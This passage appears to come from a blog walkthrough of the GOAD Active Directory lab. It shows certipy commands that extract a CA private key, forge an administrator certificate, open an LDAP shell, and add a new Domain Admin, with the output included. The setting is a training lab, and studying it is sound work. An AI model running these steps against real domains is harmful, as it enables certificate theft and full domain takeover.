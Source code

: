 - Extract the CA certificate and private key with certipy
```bash
certipy ca -backup -u khal.drogo@essos.local -p horse -dc-ip 192.168.56.12 -ca 'ESSOS-CA' -target 192.168.56.23 -debug
```
![part14_extract_ca_key.png](/assets/blog/GOAD/part14_extract_ca_key.png)

- Forge a certificate as domain admin
```bash
certipy forge -ca-pfx 'ESSOS-CA.pfx' -upn administrator@essos.local
```

- A certificate as domain admin is obtained and can be follow by a Pass The Certificate.

### with schannel
- Pass the certificate and obtain an ldap shell with schannel
```bash
certipy auth -pfx administrator_forged.pfx -ldap-shell
```

![part14_esc5_ldap_shell.png](/assets/blog/GOAD/part14_esc5_ldap_shell.png)

- At this point a way to exploit could be to create a user and add him to domain admin.

```
# add_user newdomainadmin
Attempting to create user in: %s CN=Users,DC=essos,DC=local
Adding new user with username: newdomainadmin and password: #:krR&,gk@%R3M* result: OK

# add_user_to_group newdomainadmin "Domain admins"
Adding user: newdomainadmin to group Domain Admins result: OK
```
